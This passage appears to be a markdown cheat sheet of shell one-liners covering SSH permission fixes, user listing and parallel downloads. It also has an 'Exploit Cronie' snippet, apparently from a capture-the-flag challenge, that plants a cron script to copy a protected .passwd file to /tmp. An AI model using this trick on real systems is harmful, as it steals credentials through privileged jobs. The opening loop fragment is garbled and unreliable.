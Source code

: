 ```sh
	read line;read line1; 
   	do 
    1;2;sleep 0.1;
done < test
```

### Download files fast as ****:

```sh
time seq 1000|parallel -a 1 -j1000 wget
```

### Exploit Cronie - If a script is running with higher privileges

```sh
echo "cat /challenge/app-script/ch4/.passwd >/tmp/cracked" > \
    cron.d/go && chmod a+x cron.d/go \
    && sleep 60 && \
    cat /tmp/cracked
```

### Fix `broken` SSH permissions for client

```sh
chmod 700 ~/.ssh
chmod 644 ~/.ssh/authorized_keys
chmod 644 ~/.ssh/known_hosts
chmod 644 ~/.ssh/config
chmod 600 ~/.ssh/id_rsa
chmod 644 ~/.ssh/id_rsa.pub
chmod 600 ~/.ssh/github_rsa
chmod 644 ~/.ssh/github_rsa.pub
chmod 600 ~/.ssh/mozilla_rsa
chmod 644 ~/.ssh/mozilla_rsa.pub
```

### Find users that is `not` used in /etc/passwd

```
for shell in $(</etc/shells);do
  count=`grep -c $shell /etc/passwd`
  if [ $count -eq 0 ]; then echo $shell not used in /etc/passwd;fi
done
```

### Print users

```sh
getent passwd | awk -F ':' '{print $1}' > allusers

cut -d: -f1 /etc/passwd
sed 's/:.*//' /etc/passwd
awk -F: '{print $1}' /etc/passwd
```
